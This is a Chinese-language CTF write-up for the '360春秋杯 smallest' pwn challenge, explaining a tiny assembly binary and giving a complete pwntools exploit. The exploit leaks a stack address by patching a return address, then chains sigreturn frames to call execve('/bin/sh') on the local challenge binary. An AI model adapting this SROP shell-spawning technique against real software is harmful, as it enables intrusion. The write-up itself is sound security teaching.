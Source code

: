 ```yaml
---
title: 360春秋杯 smallest
description: 360春秋杯 smallest-writeup
date: 2021-07-13 15:07:56
categories:
 - PWN
tags:
---
```




# 360春秋杯 smallest

## 分析

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625995498631-fa75a668-b4c8-4b12-bbdc-ad8e502fb721.png)

程序就简单的几句汇编，这里就是调用read函数，64位的read系统调用号为0，这里xor将rax设为了0，实际上这几行汇编代码就是调用了read(0, $rsp, 0x400)，向栈顶写入0x400个字节数据，这题可以用SROP去做。

## EXP

exp参考了yichen的博客https://www.yuque.com/hxfqg9/bin/erh0l7#cS7rH

首先是泄露栈的地址，写入/bin/sh，但是如何调用write函数呢，这里很巧妙，首先向栈中写入3个start_addr，就是read的地址，因为是写在栈顶的，其实就是返回地址。

```python
start_addr = 0x4000B0
payload  = p64(start_addr) * 3
p.sendline(payload)
p.send('\xb3')
stack_addr = u64(p.recv()[8:16])
log.success('stack_addr:'+ hex(stack_addr))
```

那么第一个read返回之后，又调用一次read，我们发送一字节\xb3，将第二个0x4000B0最后一位改了，改成0x4000B3，也就跳过了xor rax, rax，防止rax置零，而且因为我们调用了read并发送了一字节数据，read会返回读取的字节数到rax，那么rax此时变成了1，这样我们就可以调用write函数了。然后我们接收后8个字节的数据，因为前8个是0x4000B0，后面8字节才是栈地址。

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625996578171-44c72b4c-9762-454c-99e2-657e32b2da2f.png)  write之后       ![img](https://cdn.nlark.com/yuque/0/2021/png/21979441/1626150142044-ebc2ad47-97be-4f8e-9afc-330b729d6b70.png)

然后我们可以通过SROP去构造了，将read的栈迁移到上面我们接收到的栈地址，这样就不用计算偏移了，并通过发送15个字节将rax改成15调用Sigreturn，来恢复我们构造好的read。

```python
read = SigreturnFrame()
read.rax = constants.SYS_read
read.rdi = 0
read.rsi = stack_addr
read.rdx = 0x400
read.rsp = stack_addr
read.rip = syscall_ret

read_frame_payload = p64(start_addr) + p64(syscall_ret) + str(read)
p.send(read_frame_payload)
p.send(read_frame_payload[8:8+15])
```

然后构造好execve的frame，我们可以打印出execve的frame有多长，发现是0x108的长度，那么将/bin/sh写入stack_addr+0x108的位置，然后同样向read输入15个字节调用Sigreturn恢复frame从而调用execve

```python
execve = SigreturnFrame()
execve.rax = constants.SYS_execve
execve.rdi = stack_addr + 0x108
execve.rsi = 0x0
execve.rdx = 0x0
execve.rip = syscall_ret
execve_frame_payload = p64(start_addr) + p64(syscall_ret) + str(execve)
log.success('length:' + str(len(execve_frame_payload)))
execve_frame_payload_all = execve_frame_payload  + '/bin/sh\x00'
p.send(execve_frame_payload_all)
p.send(execve_frame_payload_all[8:8+15])
```

完整的EXP：

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

p = process('smallest')

start_addr = 0x4000B0
syscall_ret = 0x4000BE

payload  = p64(start_addr) * 3

p.sendline(payload)
p.send('\xb3')
stack_addr = u64(p.recv()[8:16])
log.success('stack_addr:'+ hex(stack_addr))

read = SigreturnFrame()
read.rax = constants.SYS_read
read.rdi = 0
read.rsi = stack_addr
read.rdx = 0x400
read.rsp = stack_addr
read.rip = syscall_ret

read_frame_payload = p64(start_addr) + p64(syscall_ret) + str(read)
p.send(read_frame_payload)
p.send(read_frame_payload[8:8+15])

execve = SigreturnFrame()
execve.rax = constants.SYS_execve
execve.rdi = stack_addr + 0x108
execve.rsi = 0x0
execve.rdx = 0x0
execve.rip = syscall_ret
execve_frame_payload = p64(start_addr) + p64(syscall_ret) + str(execve)
log.success('length:' + str(len(execve_frame_payload)))
execve_frame_payload_all = execve_frame_payload  + '/bin/sh\x00'
p.send(execve_frame_payload_all)
p.send(execve_frame_payload_all[8:8+15])

p.interactive()
```
